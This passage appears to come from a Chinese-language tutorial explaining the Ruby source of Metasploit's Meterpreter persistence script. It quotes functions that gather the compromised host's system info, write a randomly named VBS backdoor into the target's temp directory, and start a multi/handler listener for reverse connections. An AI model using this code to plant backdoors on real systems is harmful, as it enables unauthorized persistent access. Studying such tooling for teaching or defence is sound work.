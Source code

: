 下一个函数是用于创建持久脚本的。脚本是根据传递给脚本的有效载荷和其他参数值创建的。

```
# Function for creating log folder and returning log path
#-------------------------------------------------------------------------------
def log_file(log_path = nil)
#Get hostname
host = @client.sys.config.sysinfo["Computer"]
# Create Filename info to be appended to downloaded files
filenameinfo = "_" + ::Time.now.strftime("%Y%m%d.%M%S")
# Create a directory for the logs
if log_path
logs = ::File.join(log_path, 'logs', 'persistence', Rex::FileUtils.clean_path(host + filenameinfo) )
else
logs = ::File.join(Msf::Config.log_directory, 'persistence', Rex::FileUtils.clean_path(host + filenameinfo) )
end
# Create the log directory
::FileUtils.mkdir_p(logs)
#logfile name
logfile = logs + ::File::Separator + Rex::FileUtils.clean_path(host + filenameinfo) + ".rc"
return logfile
end 
```

下一个函数是用于为脚本创建日志目录的。`host = @client.sys.config.sysinfo["Computer"]`调用提取了受损目标的系统信息。使用负责执行文件和目录操作的 Rex::FileUtils 库创建了目录和文件名。

```
# Function for writing script to target host
#-------------------------------------------------------------------------------
def write_script_to_target(target_dir,vbs)
if target_dir
tempdir = target_dir
else
tempdir = @client.fs.file.expand_path("%TEMP%")
end
tempvbs = tempdir + "\\" + Rex::Text.rand_text_alpha((rand(8)+6)) + ".vbs"
fd = @client.fs.file.new(tempvbs, "wb")
fd.write(vbs)
fd.close
print_good("Persistent Script written to #{tempvbs}")
file_local_write(@clean_up_rc, "rm #{tempvbs}\n")
return tempvbs
end 
```

该函数开始将文件写入磁盘。它将各种后门文件保存在之前函数创建的文件夹和目录中。`Rex::Text.rand_text_alpha((rand(8)+6)) + ".vbs"`调用生成一个随机文本作为要在临时目录中创建的文件名。`fd.write()`调用将文件写入磁盘。

```
# Function for setting multi handler for autocon
#-------------------------------------------------------------------------------
def set_handler(selected_payload,rhost,rport)
print_status("Starting connection handler at port #{rport} for #{selected_payload}")
mul = client.framework.exploits.create("multi/handler")
mul.datastore['WORKSPACE'] = @client.workspace
mul.datastore['PAYLOAD'] = selected_payload
mul.datastore['LHOST'] = rhost
mul.datastore['LPORT'] = rport
mul.datastore['EXITFUNC'] = 'process'
mul.datastore['ExitOnSession'] = false
mul.exploit_simple(
'Payload' => mul.datastore['PAYLOAD'],
'RunAsJob' => true
)
```